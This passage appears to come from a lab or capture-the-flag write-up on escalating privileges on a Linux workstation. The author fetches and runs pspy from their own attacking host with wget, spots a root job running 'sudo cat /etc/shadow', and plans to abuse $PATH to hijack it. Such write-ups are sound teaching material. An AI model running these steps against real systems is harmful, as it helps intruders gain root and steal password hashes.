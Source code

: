 ```bash
1) INBOUND sshd: frank@pts/0 (from 10.8.100.14) 603
#? 1
>> SSH session (INBOUND sshd: frank@pts/0 (from 10.8.100.14) 603) closed
```

No luck.
### pspy

We suspect that there is some cronjob that opens ssh connections.. let's check with `pspy`:

```bash
frank@workstation:~$ wget http://10.8.100.14:8080/pspy/pspy64
--2023-08-12 09:04:17--  http://10.8.100.14:8080/pspy/pspy64
Connecting to 10.8.100.14:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                          100%[=====================================================================================================>]   2.94M  1.33MB/s    in 2.2s

2023-08-12 09:04:19 (1.33 MB/s) - ‘pspy64’ saved [3078592/3078592]

frank@workstation:~$ chmod +x pspy64
frank@workstation:~$ ./pspy64
```

We noticed this:

```bash
2023/08/12 09:04:52 CMD: UID=1000 PID=14101  |
2023/08/12 09:04:52 CMD: UID=1000 PID=14102  | /bin/sh /etc/init.d/ssh status
2023/08/12 09:04:52 CMD: UID=1000 PID=14104  | /bin/sh /usr/sbin/service --status-all
2023/08/12 09:04:52 CMD: UID=1000 PID=14103  | /bin/sh /usr/sbin/service --status-all
2023/08/12 09:04:53 CMD: UID=1000 PID=14105  | sshd: frank@pts/1
2023/08/12 09:04:54 CMD: UID=1000 PID=14106  | sshd: frank@pts/1
2023/08/12 09:04:54 CMD: UID=0    PID=14107  | sudo cat /etc/shadow
```

So there is a cron that executes `sudo cat /etc/shadow`.

Maybe we can abuse `$PATH`

### path

```bash
frank@workstation:~$ env
SHELL=/bin/bash
PWD=/home/frank
LOGNAME=frank
MOTD_SHOWN=pam
HOME=/home/frank
LANG=C.UTF-8
..
..
..
SSH_CONNECTION=10.8.100.14 45132 172.18.0.2 22
TERM=tmux-256color
USER=frank
SHLVL=1
SSH_CLIENT=10.8.100.14 45132 22
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/env

```